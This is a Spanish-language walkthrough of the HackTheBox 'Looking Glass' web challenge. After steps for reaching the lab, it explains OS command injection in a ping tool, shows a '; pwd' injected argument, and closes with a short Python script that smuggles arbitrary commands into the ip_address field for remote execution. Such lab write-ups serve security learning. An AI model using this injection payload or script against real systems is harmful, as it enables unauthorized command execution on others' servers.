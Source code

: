 ```yaml
---
title: "Looking Glass Walkthrough Challenge en HackTheBox"
excerpt: "**Looking Glass** Walkthrough Challenge en HackTheBox"
header:
  overlay_image: /assets/images/HTB_looking_glass/banner.png
  teaser: /assets/images/HTB_looking_glass/wallpaper.png
  og_image: /assets/images/HTB_looking_glass/wallpaper.png
categories:
  - HTB
tags:
  - HTB
  - Challenge
  - Web
  - OWASP TOP 10
---
```

![image-center](\assets\images\HTB_looking_glass\portada.png)
## ¿Qué es un Challenge en HTB?
Los challenges de HackTheBox son pequeños desafíos para probar diferentes técnicas de pentesting. Tienen tres niveles de dificultad (Easy, Medium, Hard) según el color de su entrada, pero la dificultad real es calificada por los usarios que han completado el challenge en una escala de diez nieveles (desde "Piece of cake" a "Brainfuck")

Lo primero que debemos hacer es ir a la página web de Hack The Box y en la parte izquierda tenemos un menú en el que podemos ver varias secciones como *Labs*, *Ranking*, *Battleground*, etc. Seleccionamos la pestaña *Labs* y se nos muestra un desplegable, pulsamos en la opción Tracks como se muestra en la siguiente imagen.

![image-center](\assets\images\HTB_looking_glass\tracks.png)

Este challenge está comprendido dentro del track de OWASP Top 10, que contiene 10 challenges de vulnerabilidades WEB con nivel de dificultad Easy:

![image-center](\assets\images\HTB_looking_glass\owasp.png)

Elegimos el challenge de looking glass:

![image-center](\assets\images\HTB_looking_glass\looking_glass.png)

Y ya podemos arrancar la máquina pulsando el boton de Start Instance:

![image-center](\assets\images\HTB_looking_glass\looking_glass_2.png)

Importante: para poder acceder a la máquina antes debemos conectarnos a la VPN.

![image-center](\assets\images\HTB_looking_glass\vpn.png)

## Looking glass challenge

Segun la propia descripción del challenge:
> _**“Hemos creado la herramienta más segura de networking en el mercado, ¡ven y pruébala!”**_

Arrancamos la máquina y vemos que nos muestra:

![image-center](\assets\images\HTB_looking_glass\vpn.png)

Se aprecia un menú de opciones en el que podemos seleccionar entre el comando Ping y Traceroute y además podemos introducir manualmente la IP a la que queremos hacer Ping o Traceroute.

Esto podría implementarse en el lado del servidor con la siguiente línea:
```sh
system("ping -c 4 " + IP);
```
Básicamente estamos pasando los parametros a Bash por lo que podríamos instertar un `;` en la variable IP, haciendo que lo que fuera detras de este punto y coma se interprete como un comando diferente:

```sh
system("ping -c 4 192.168.0.1; pwd");
```

En el ejemplo anterior `pwd` se ejecutaría como un comando separado.


```python
from requests import post

comando = input('Introduce el comando que quieres ejecutar:  ')

datos_post = {'test': 'ping', 'ip_address': f'206.189.125.57; {comando}', 'submit': 'Test'}
respuesta = post('http://206.189.125.57:30011/', data=datos_post)

data = respuesta.text
data = data.split('loss\n')[-1]
data = data.split('</textarea>')[0]

print(data.strip())
```

Se trata de una vulnerabilidad RCE (Remote Code Execution) que explicaré en próximos posts.